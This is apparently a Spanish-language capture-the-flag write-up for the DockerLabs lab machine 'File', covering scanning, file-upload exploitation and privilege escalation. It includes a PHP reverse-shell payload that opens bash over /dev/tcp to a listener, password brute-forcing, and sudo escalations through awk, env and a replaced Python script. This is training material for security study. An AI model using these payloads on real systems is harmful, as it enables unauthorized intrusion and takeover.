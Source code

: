 Hoy realizamos la máquina "File" de [DockerLabs](https://dockerlabs.es)

Autor: [Scuffito y Jul3n-dot](https://github.com/jul3n-dot)

Dificultad: Fácil

![Dockerlabs](../../maquina-file/img/Dockerlabs.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Dec  6 09:14:35 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-06 09:14:36 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12 21:50 anon.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  6 09:14:44 2024 -- 1 IP address (1 host up) scanned in 9.22 seconds
```

Como vemos tenemos 2 puertos:

`21: vsftpd 3.0.5 (No vulnerable)`

`80: Apache httpd 2.4.41`

Viendo las opciones, pasaremos directamente a hacer fuzzing con `gobuster`:

```css
gobuster dir -u "http://172.17.0.2" -w directory-list-2.3-big.txt -x php
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/file_upload.php      (Status: 200) [Size: 468]
Progress: 732621 / 2547666 (28.76%)
===============================================================
Finished
===============================================================
```

# Intrusión

Viendo que podemos posiblemente podemos subir archivos en "file_upload.php", crearemos una shell en php, solo que con extension `phar`:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

Una vez creado, escuchamos en el puerto 443 con netcat (`sudo nc -nlvp 443`) y luego lo subimos, vamos a donde está la shell (/uploads/shell.phar) y entramos, una vez lo hagamos estaremos dentro como www-data.

# Escalada de privilegios

### www-data

Ahora para escalar, necesitaremos de un script que nos permite hacer [fuerza bruta a varios usuarios al mismo tiempo](https://github.com/Maciferna/multi-Su_Force), y usamos la wordlist de rockyou. Una vez hecho habremos obtenido la contraseña de el usuario fernando

### Fernando

Si vamos al home de fernando, veremos una foto, esta nos la pasamos a nuestra maquina e intentamos obtener una contraseña para extraer lo que tiene un su interior con `steghide`. Para esto primero debemos buscar su contraseña:

```
stegseek --crack dragon-medieval.jpeg /opt/rockyou.txt 
```

Una vez lo hagamos, nos dirá que dentro tiene un archivo llamado "pass.txt" y que la contraseña para extraerlo es "secret". Este nos deja un archivo llamado igual que la imagen pero con un .out al final, lo leemos y nos da un hash, el cual al crackearlo en [CrackStation](https://crackstation.net) nos dará la contraseña del usuario "mario".



### Mario

Siendo mario, podemos ejecutar el binario `awk` como el usuario "julen", por lo que luego de buscar en gtfobins veo que se puede escalar de la siguiente manera:

```css
sudo -u julen awk 'BEGIN {system("/bin/bash")}'
```

### Julen

Ahora si ejecutamos `sudo -l`, vemos que nuevamente podemos ejecutar algo como otro usuario, y en este caso es el binario `env` como el usuario "iker". Por lo que para escalar ejecutamos `sudo -u iker env bash`.

### Iker

Si ejecutamos `sudo -l`, veremos que podemos ejecutar un script de python como root. Este script se encuentra en la home de iker, por lo que significa que aunque el archivo pertenezca a root y no tengamos permiso de escritura, podemos borrarlo igualmente. Sabiendo esto, lo borramos y creamos otro con el mismo nombre solo que con el siguiente contenido:

```python
import os

os.system("/bin/bash")
```

Una vez todo listo, ejecutamos `sudo python3 /home/iker/geo_ip.py ` y ya seremos root.

## Root

![root](/maquina-file/img/root.png)

Gracias por leer :)